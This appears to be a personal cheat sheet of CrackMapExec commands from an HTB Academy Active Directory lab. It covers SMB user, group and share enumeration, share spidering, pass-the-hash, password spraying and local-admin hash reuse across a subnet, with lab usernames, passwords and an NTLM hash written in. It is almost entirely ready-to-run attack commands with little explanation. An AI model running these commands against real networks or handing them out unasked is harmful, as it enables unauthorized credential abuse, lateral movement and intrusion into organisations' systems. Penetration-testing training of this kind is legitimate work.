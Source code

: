 # User enumeration
non cred
```
crackmapexec smb 172.16.5.5 --users
```
cred
```
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
logged on users
```shell-session
crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```
# Group Enumeratin
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

# Share enumeration
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

# Passthehash
#passthehash
```
crackmapexec smb ipadd -u administrator -h hash
```

# Password Sprayinig
```

sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

# Local Auth
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```